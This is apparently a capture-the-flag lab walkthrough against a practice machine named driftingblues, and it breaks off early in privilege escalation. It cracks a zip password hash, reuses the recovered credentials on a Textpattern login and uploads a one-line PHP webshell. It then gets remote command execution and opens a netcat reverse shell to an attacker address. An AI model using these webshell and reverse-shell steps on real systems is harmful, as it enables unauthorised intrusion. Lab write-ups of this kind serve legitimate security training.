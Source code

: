 ```

Run this hash through hashcat with -m 17210

```hashcat -m 17210 D:\kali_shared\spam_hash.txt D:\kali_shared\rockyou.txt```

```$pkzip$1*1*2*0*1b*f*b003611d*0*27*0*1b*b003*2d41804a5ea9a60b1769d045bfb94c71382b2e5febf63bda08a56c*$/pkzip$:myspace4```

Creds from spammer.zip
```mayer:lionheart```

Find where to use them
```
feroxbuster --url http://driftingblues.pg/textpattern/ -x php --wordlist /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt -r -o ferox_scan.txt -t 100 
```

![[ferox_scan.txt]]

Going through the ferox scan, we find http://driftingblues.pg/textpattern/textpattern/ with a login and the credentials work

If we go to content -> images
![[Pasted image 20240227190815.png]]

If we go to content -> files, we can upload files. Let's put a basic php webshell up there.
```
<?php echo system($_GET['cmd']); ?>
```

![[Pasted image 20240227190935.png]]

From the ferox scan, it looks like they go to http://driftingblues.pg/textpattern/files/
```
http://driftingblues.pg/textpattern/files/basic_php_webshell.php?cmd=whoami
```

We have RCE
![[Pasted image 20240227191034.png]]

Let's get a reverse shell
![[Pasted image 20240227191114.png]]

```nc -nlvp 4444```
`Ncat: Version 7.94SVN ( https://nmap.org/ncat )`
`Ncat: Listening on [::]:4444`
`Ncat: Listening on 0.0.0.0:4444`


```http://driftingblues.pg/textpattern/files/basic_php_webshell.php?cmd=nc%20192.168.45.222%204444%20-e%20/bin/bash```

`Ncat: Connection from 192.168.236.219:57848.`
```python -c 'import pty; pty.spawn("/bin/bash")'```
`www-data@driftingblues:/var/www/textpattern/files$`

We look for suid permissions files, exim4 is there. There are 2 exploits which fail.

Nothing interesting in crontab. 

Start going through the CVEs suggested by linpeas.
```
[+] [CVE-2016-5195] dirtycow
